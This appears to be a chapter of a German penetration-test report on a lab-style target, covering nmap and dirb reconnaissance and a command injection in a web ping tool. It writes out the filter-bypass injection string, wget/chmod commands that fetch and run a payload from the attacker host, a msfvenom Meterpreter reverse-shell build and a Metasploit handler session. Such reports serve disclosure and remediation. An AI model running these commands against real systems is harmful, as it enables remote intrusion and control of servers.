\acresetall
\chapter{Schwachstellenbeschreibung für Administratoren}
\label{chapter:schwachstellenbeschreibung} 
Für die Nachvollziehbarkeit und Nachprüfbarkeit der einzelnen Schwachstellen, werden diese in den folgenden Unterkapiteln detailliert beschrieben und die Ausnutzbarkeit der Schwachstellen mit genauen Kommandos dargestellt. IT-Fachpersonal des Kunden kann dadurch die jeweiligen Schwachstellen der betroffenen Systeme identifizieren, nachvollziehen und nachprüfen. Neben einer detaillierten Darstellung der jeweiligen Schwachstellen wird eine Risikobewertung sowie die empfohlenen Gegenmaßnahmen ergänzt, sodass die Ausnutzung der Schwachstellen durch reale Angreifer unterbunden wird und die Unternehmenswerte geschützt werden. Vereinzelt werden auffällige Punkte, welche nicht direkt eine Schwachstelle darstellen, aber zur Verbesserung der IT-Sicherheit beitragen, unter Security-in-Depth-Maßnahmen aufgelistet und runden die einzelnen Schwachstellen ab.

\section{Aufklärung von mb-reps.cool.datcom.prv}
Aufgrund der Tatsache, dass für die Zielumgebung des Kunden außer des Domainnamens \texttt{mb-reps.cool.datcom.prv} und dem DNS-Server \texttt{172.16.77.1} keine weiteren Hintergrundinformationen im Rahmen des Black-Box-Tests zur Verfügung gestellt wurden, wurde zuerst der Server hinter dem Domänenamen mittels dem Netzwerkanalyse-Tool \texttt{db\_nmap}\footnote{Bei \texttt{db\_nmap} handelt es sich um eine Metasploit-Variante des \texttt{nmap}-Tools.} aufgeklärt. Textauszug \ref{lst:domain_recon} zeigt, dass der DNS-Name zur IP-Adresse \texttt{172.16.30.80} aufgelöst wurde und dieser Host einen Apache httpd Webserver in der Version 2.4.7 auf Port 80 betreibt. Als Betriebssystem wird die Ubuntu-Distribution verwendet, welche auf einem (Debian) Linux-Kernel basiert. Die NSE-\texttt{vuln}-Skripte von nmap zur Aufdeckung von Schwachstellen hatte keine nennenswerte Ergebnisse geliefert. Aufgrund der Apache Version 2.4.7 vom 22.11.2013 ist ein Slowloris-Schwachstelle nicht zu befürchten. Allerdings weißt die Version einige bekannte Schwachstellen in einigen Modulen auf, die zum Test-Zeitpunkt nicht im Einsatz zu sein scheinen. Um auch vor zukünftigen Konfigurationsänderungen geschützt zu sein, wird empfohlen auf die neueste Version 2.4.52 zu aktualisieren. Details können im Changelog von Apache unter unter \url{https://www.apachelounge.com/Changelog-2.4.html} eingesehen werden.

\lstset{language=bash,keywordstyle=\ttfamily,stringstyle={},caption={Nmap-Scan zum Domainnamen \texttt{mb-reps.cool.datcom.prv}}, label=lst:domain_recon}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
gu4c4m0l3@msf-kali-t470 [S:1, J:1] > db_nmap --dns-servers 172.16.77.1 -PS20-25,80,443,445,8080,8443 -R -sS -p - -sV -O --script=vuln -T4 mb-reps.cool.datcom.prv --open
[*] Nmap: Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-27 13:08 CET
[*] Nmap: Nmap scan report for mb-reps.cool.datcom.prv (172.16.30.80)
[*] Nmap: Host is up (0.034s latency).
[*] Nmap: Not shown: 65532 filtered tcp ports (no-response), 2 closed tcp ports (reset)
[*] Nmap: Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
[*] Nmap: PORT   STATE SERVICE VERSION
[*] Nmap: 80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
[*] Nmap: |_http-dombased-xss: Couldn't find any DOM based XSS.
[*] Nmap: | http-fileupload-exploiter:
[*] Nmap: |
[*] Nmap: |     Couldn't find a file-type field.
[*] Nmap: |
[*] Nmap: |_    Couldn't find a file-type field.
[*] Nmap: |_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
[*] Nmap: | http-slowloris-check:
[*] Nmap: |   VULNERABLE:
[*] Nmap: |   Slowloris DOS attack
[*] Nmap: |     State: LIKELY VULNERABLE
[*] Nmap: |     IDs:  CVE:CVE-2007-6750
[*] Nmap: |       Slowloris tries to keep many connections to the target web server open and hold
[*] Nmap: |       them open as long as possible.  It accomplishes this by opening connections to
[*] Nmap: |       the target web server and sending a partial request. By doing so, it starves
[*] Nmap: |       the http server's resources causing Denial Of Service.
[*] Nmap: |
[*] Nmap: |     Disclosure date: 2009-09-17
[*] Nmap: |     References:
[*] Nmap: |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
[*] Nmap: |_      http://ha.ckers.org/slowloris/
[*] Nmap: |_http-server-header: Apache/2.4.7 (Ubuntu)
[*] Nmap: | http-enum:
[*] Nmap: |   /css/: Potentially interesting directory w/ listing on 'apache/2.4.7 (ubuntu)'
[*] Nmap: |   /html/: Potentially interesting directory w/ listing on 'apache/2.4.7 (ubuntu)'
[*] Nmap: |   /images/: Potentially interesting directory w/ listing on 'apache/2.4.7 (ubuntu)'
[*] Nmap: |_  /js/: Potentially interesting directory w/ listing on 'apache/2.4.7 (ubuntu)'
[*] Nmap: |_http-csrf: Couldn't find any CSRF vulnerabilities.
[*] Nmap: Device type: general purpose
[*] Nmap: Running (JUST GUESSING): Linux 3.X|4.X (86%)
[*] Nmap: OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
[*] Nmap: Aggressive OS guesses: Linux 3.10 - 3.16 (86%), Linux 3.11 - 4.1 (85%), Linux 3.16 (85%)
[*] Nmap: No exact OS matches for host (test conditions non-ideal).
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 429.86 seconds

\end{lstlisting}

Anschließend wurde die Website im Firefox-Browser geöffnet. Abbildung \ref{fig:domain_recon_website} zeigt, dass es sich mutmaßlich um den Internetauftritt der Firma MB-Reps handelt. Im nächsten Kapitel wird die Sicherheitsanalyse der Webseite von \texttt{mb-reps.cool.datcom.prv} vorgestellt.

\begin{figure}[h]
    \centering
    
\includegraphics[width=\textwidth]{./img/vuln1/myron_website}
    \caption{Darstellung des Internetauftritts von MB-Reps in Firefox}
    \label{fig:domain_recon_website}
\end{figure}


\section{Schwachstelle 1: Remote Command Injection bei mb-reps.cool.datcom.prv}
\label{subsec:vuln1}
Über eine unzureichende Eingabeprüfung einer web-basierten Ping-Applikation, ist es einem entfernten und nicht authentifizierten Angreifer möglich, aus der Ferne beliebigen Code oder Befehle ohne Administrationsberechtigungen auszuführen.

\subsection{Beschreibung der Schwachstelle}
\label{vuln1_way}
Da die manuelle Analyse der Website keine ausnutzbaren Schwachstellen aufgezeigt hat, wurde mittels dem Web-Scanner \texttt{dirb}\footnote{\url{http://dirb.sourceforge.net/}} (Abkürzung für \emph{dirbuster}) unter Angabe eines Wörterbuchs versucht gängige (aber nicht verlinkte) HTTP-Pfade der Webapplikation aufzudecken. Die Analyse der in Textauszug \ref{lst:vuln1_dirb} gezeigten HTTP-Pfade hat ergeben, dass unter \texttt{http://172.16.30.80:80/staradmin/} ein Tool zum Durchführen von Pinganfragen zur Verfügung gestellt wird.
\lstset{language=bash,caption={\texttt{dirb}-Befehl zum Aufdecken von HTTP-Pfaden}, label=lst:vuln1_dirb}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
|--(gu4c4m0l3@kali-t470)-[~/Documents/pentest_MB-Reps/172_16_33_10]
|-$ dirb http://mb-reps.cool.datcom.prv:80 /usr/share/wordlists/dirb/big.txt  

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Feb 27 13:11:06 2022
URL_BASE: http://mb-reps.cool.datcom.prv:80/
WORDLIST_FILES: /usr/share/wordlists/dirb/big.txt

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://mb-reps.cool.datcom.prv:80/ ----
==> DIRECTORY: http://mb-reps.cool.datcom.prv:80/cat/                                                                                                                                             
==> DIRECTORY: http://mb-reps.cool.datcom.prv:80/css/                                                                                                                                             
==> DIRECTORY: http://mb-reps.cool.datcom.prv:80/flag/                                                                                                                                            
==> DIRECTORY: http://mb-reps.cool.datcom.prv:80/fonts/                                                                                                                                           
==> DIRECTORY: http://mb-reps.cool.datcom.prv:80/html/                                                                                                                                            
==> DIRECTORY: http://mb-reps.cool.datcom.prv:80/images/                                                                                                                                          
==> DIRECTORY: http://mb-reps.cool.datcom.prv:80/js/                                                                                                                                              
+ http://mb-reps.cool.datcom.prv:80/server-status (CODE:403|SIZE:303)                                                                                                                             
==> DIRECTORY: http://mb-reps.cool.datcom.prv:80/staradmin/                                                                                                                                       
==> DIRECTORY: http://mb-reps.cool.datcom.prv:80/vendors/                                                                          

   [... Ausgabe gekürzt ...]
                                                                               
-----------------
END_TIME: Sun Feb 27 13:35:26 2022
DOWNLOADED: 40916 - FOUND: 1

\end{lstlisting}

Um das Ping-Tool ordnungsgemäß zu benutzen, wird im Eingabefeld ein Hostname oder eine IP-Adresse erwartet. Analysen haben allerdings gezeigt, dass über das Eingabefeld weitere Befehle, welche mit den Rechten des Webservers ausgeführt werden, eingefügt werden können. Üblicherweise können mehrere Linux-Befehle mit den Zeichen \texttt{\&\&}, \texttt{;} bzw. \texttt{||} durchgeführt werden\footnote{Details zur Verkettung von Befehlen siehe \url{https://dev.to/0xbf/run-multiple-commands-in-one-line-with-and-linux-tips-5hgm}}. Analysen hatten gezeigt, dass gewisse Zeichenersetzungstrategien eingesetzt werden, wodurch die direkte Verwendung dieser Zeichen nicht funktionierte. Allerdings ist es einem Angreifer möglich, beliebige eigene Kommandos mit der Eingabe von \texttt{-c 1 localhost > /dev/null \&;\& <Kommando>} auszuführen, wobei dabei \texttt{<Kommando>} das vom Angreifer gewünschte Kommando ausführt. Das Ergebnis des Kommandos wird anschließend in der Antwort der HTTP-Anfrage dargestellt. Abbildung \ref{fig:vuln1_staradmin} zeigt als Beispiel die Ausführung des \texttt{ls}-Kommandos zur Anzeige der im HTTP-Pfad befindlichen Dateien. Die dazugehörige Antwort mit der Auflistung der enthaltenen Dateien wird in Abbildung \ref{fig:vuln1_staradmin_ls_response} dargestellt. Die genaue Funktionsweise des Pingtools sowie die Funktionsweise der Zeichenersetzungsstrategie wird am Ende dieses Kapitels zusammen mit dem dazugehörigen Source-Code genauer erläutert.

\begin{figure}[ht]
    \centering
    
\includegraphics[width=\textwidth]{./img/vuln1/startadmin_ls_command}
    \caption{Ausführen des \texttt{ls}-Kommandos in der Ping-Anwendung}
    \label{fig:vuln1_staradmin}
\end{figure}



\begin{figure}[ht]
    \centering
    
\includegraphics[width=\textwidth]{./img/vuln1/startadmin_ls_command_response}
    \caption{HTTP-Antwort des \texttt{ls}-Kommandos in der Ping-Anwendung}
    \label{fig:vuln1_staradmin_ls_response}
\end{figure}
Dies ermöglicht den Angreifer vorher unbekannte HTTP-Pfade zu erforschen. Mittels des Aufrufs von \texttt{http://172.16.30.80/staradmin/ flag\_24f3b6db93dfa569710c2741e58fe756.html} im Webbrowser kann zum Beispiel die in Abbildung \ref{fig:vuln1_flag1} dargestellte Webseite aufgerufen werden.

\begin{figure}[ht]
    \centering
    
\includegraphics[width=\textwidth]{./img/vuln1/flag1}
    \caption{Aufruf eines vorher unbekannten HTTP-Pfades}
    \label{fig:vuln1_flag1}
\end{figure}

Details über die System-Architektur, die Rechte des Benutzers des Webservers sowie die Netzwerkkonfiguration konnte mittels der Eingabe von \texttt{-c 1 localhost > /dev/null \&;\& uname -a \&;\& id \&;\& ip address} im Eingabefeld des Pingtools erlangt werden (s. Abbildung \ref{fig:vuln1_staradmin_infos}). 

\begin{figure}[ht]
    \centering
    
\includegraphics[width=\textwidth]{./img/vuln1/startadmin_infos}
    \caption{Erlangen weiterer Informationen mittels \texttt{uname -a}, \texttt{id} und \texttt{ip address}.}
    \label{fig:vuln1_staradmin_infos}
\end{figure}

Dabei gibt \texttt{uname -a} Details zum Betriebssystem und Architektur aus. Der Befehl \texttt{id} zeigt den Benutzernamen sowie die Berechtigungen in Form von Gruppenmitgliedschaften an und der Befehl \texttt{ip address} gibt die Informationen zur Netzwerkkonfiguration aus. Abbildung \ref{fig:vuln1_stardmin_infos_response} zeigt dabei die Ausgabe der Befehle. Aus Zeile 1 der Antwort lässt sich entnehmen, dass es sich um die Linux-Distribution Ubuntu handelt und der Linux-Kernel in der Version 3.13.0-24 aus dem Jahr 2014 genutzt wird und auf einer 64-bit Architektur basiert. Darüber hinaus lautet der Hostname des Systems \texttt{myron}.

Aus Zeile 2 der Antwort kann entnommen werden, dass der Webserver mit den Rechten des Benutzers \texttt{www-data} (User-ID: \texttt{33}) ausgeführt wird und sonst keine weitere auffälligen Gruppenmitgliedschaften aufweist. Es handelt sich somit um einen Standardbenutzer, der üblicherweise für den Betrieb von Webservern eingesetzt wird und \textbf{keine} privilegierten Administratorberechtigungen besitzt und somit auch den Best-Practice-Vorgaben entspricht.

Die übrigen Zeilen der Ausgabe zeigen die Konfiguration der Netzwerkkarten des \texttt{myron}-Hosts. Neben dem üblichen \texttt{loopback}-Interface (\texttt{lo}) zeigt die Ausgabe das \texttt{eth0}-Interface mit den IP-Adressen \texttt{172.16.33.10} (IPv4) und \texttt{fe80::d6:9dff:fef2:8e5b} (IPv6). Insbesondere fällt auf, dass die IPv4-Adresse des Web-Servers (\texttt{172.16.30.80}) nicht mit der IP-Adresse mit der Ausgabe übereinstimmt. Dies deutet darauf hin, dass eine NAT\footnote{NAT steht für \textit{Network Address Translation} und dient zur transparenten Übersetzung von IP-Adressen, um i. d. R. Konflikte von (privaten) IP-Adressbereichen zu vermeiden.}-Komponente (mutmaßlich eine Firewall) zwischen dem Angreifer-Host und dem \texttt{myron}-Host eingesetzt wird.

\begin{figure}[ht]
    \centering
    
\includegraphics[width=\textwidth]{./img/vuln1/startadmin_infos_response}
    \caption{HTTP-Antwort von \texttt{uname -a}, \texttt{id} und \texttt{ip address}.}
    \label{fig:vuln1_stardmin_infos_response}
\end{figure}

Über das Staradmin-Pingtool ist es somit möglich, mittels weiterer missbräuchlicher Eingaben beliebig viele Kommandos und somit weitere Details (über Pfade, Dateien, Prozesse, Berechtigungen, etc.) zu erlangen. Um das Handling für den Angreifer zu erleichtern, wird im nächsten Schritt mit dem von Metasploit-Framework bereitgestelltem Tool \texttt{msfvenom} eine ausführbare Payload eines Meterpreters vorbereitet, welche über das Staradmin-Pingtool von einem vom Angreifer bereitgestelltem Webserver heruntergeladen und anschließend ausgeführt wird. Diese Payload verbindet sich zu einem vom Angreifer im Metasploit kontrollierten Meterpreter-Listener als Reverse-Shell zurück. Dies ermöglicht dem Angreifer über die Meterpreter-Sitzung direkt Befehle, Datei-Uploads bzw. Datei-Downloads auszuführen. Weitere Analysen hatten ergeben, dass Verbindungen vom \texttt{myron}-Host zum Angreifer-Host durch eine Firewall gefiltert werden. Dieser Umstand erhärtet den Verdacht, dass es sich bei der NAT-Komponenten um eine Firewall handelt. Erste Tests haben gezeigt, dass Verbindungen vom \texttt{myron}-Host zum Angreifer-PC zum Beispiel über Port 22, Port 80 oder Port 443 durchgeführt werden können und somit diese Ports seitens der Firewall freigeschaltet sind. 

Textauszug \ref{lst:vuln1_generate_payload} zeigt, wie mittels \texttt{msfvenom} ein 64-bit Meterpreter als Reverse-Shell für das Linux-System im ELF\footnote{ELF steht für \textit{Executable and Linking Format} und beschreibt das Ausführungsformat für Linux-Programme. Details können unter \url{https://man7.org/linux/man-pages/man5/elf.5.html} eingesehen werden.}-Format erstellt und als Datei \texttt{meterpreter\_linux\_x64\_172\_16\_76\_12\_port\_22} abgespeichert wurde. Als Rückverbindung der Reverse-Shell wird als Ziel die IP-Adresse des \texttt{tap0}-Interface gewählt sowie der Port 22 genutzt. Anschließend wurde auf dem Angreifer-Host der \texttt{www}-Ordner im Tempverzeichnis (\texttt{/tmp/}) angelegt und die soeben generierte Meterpreter-Datei mit dem Namen \texttt{rshell} in den Ordner \texttt{/tmp/www} kopiert. Danach wurde mittels dem Python 3 Modul \texttt{http.server} über das \texttt{tap0}-Interface (Parameter \texttt{--bind 172.16.76.12}) ein Webserver für den Ordner \texttt{/tmp/www} über Port 80 bereitgestellt.

\lstset{language=bash,caption={Generieren der Meterpreter-Payload und Bereitstellen mittels eines Web-Servers auf Port 80}, label=lst:vuln1_generate_payload}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
|--(gu4c4m0l3@kali-t470)-[~/Documents/pentest_MB-Reps/172_16_30_80]
|-$ msfvenom --payload linux/x64/meterpreter_reverse_tcp LHOST=tap0 LPORT=22 --arch x64 --platform linux --format elf > meterpreter_linux_x64_172_16_76_12_port_22
No encoder specified, outputting raw payload
Payload size: 1042160 bytes
Final size of elf file: 1042160 bytes

|--(gu4c4m0l3@kali-t470)-[~/Documents/pentest_MB-Reps/172_16_30_80]
|-$ mkdir /tmp/www && cp meterpreter_linux_x64_172_16_76_12_port_22 /tmp/www/rshell

|--(gu4c4m0l3@kali-t470)-[~/Documents/pentest_MB-Reps/172_16_30_80]
|-$ sudo python3 -m http.server --bind 172.16.76.12 --directory /tmp/www 80 
[sudo] password for gu4c4m0l3: 
Serving HTTP on 172.16.76.12 port 80 (http://172.16.76.12:80/) ...

\end{lstlisting}

Anschließend kann mittels der Eingabe im Staradmin-Pingtools von \texttt{-c 1 localhost > /dev/null \&;\& wget http://172.16.76.12/rshell -O /tmp/rshell} die Datei heruntergeladen werden und im \texttt{/tmp/}-Ordner des \texttt{myron}-Hosts abgelegt werden. Die gleiche Vorgehensweise mit der Eingabe \texttt{-c 1 localhost \&;\& chmod +x /tmp/rshell} markiert das Skript als ausführbar. Anschließend kann das Skript mittels \texttt{-c 1 localhost \&;\& /tmp/rshell} über die Eingabe des Pingtools ausgeführt werden. Damit die Session von Metasploit auch entgegen genommen werden kann, muss in Metasploit der Kali-VM ein Handler gestartet werden. Textauszug \ref{lst:vuln1_start_metasploit_handler} zeigt, wie innerhalb Metasploit der Handler gestartet und die Session vom \texttt{myron}-Host aufgebaut wurde.

\lstset{language=bash,caption={Starten des Meterpreter-Handlers und Empfangen der Session in Metasploit.}, label=lst:vuln1_start_metasploit_handler}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
gu4c4m0l3@msf-kali-t470 [S:0, J:0] > handler -p linux/x64/meterpreter/reverse_tcp -H tap0 -P 22
[*] Payload handler running as background job 0.
[*] Started reverse TCP handler on 172.16.76.12:22 
                                             
gu4c4m0l3@msf-kali-t470 [S:0, J:1] >                                      
[*] Sending stage (3020772 bytes) to 172.16.30.222                                   
[*] Meterpreter session 1 opened (172.16.76.12:22 -> 172.16.30.222:14348 ) at 2022-02-25 14:42:18 +0100

gu4c4m0l3@msf-kali-t470 [S:1, J:1] > sessions 1                                         
[*] Starting interaction with 1...                                             
meterpreter > sysinfo                                            
Computer     : 172.16.33.10                                        
OS           : Ubuntu 14.04 (Linux 3.13.0-24-generic)                                        
Architecture : x64                                         
BuildTuple   : x86_64-linux-musl                                           
Meterpreter  : x64/linux                       
meterpreter > getuid                           
Server username: www-data                     
\end{lstlisting}

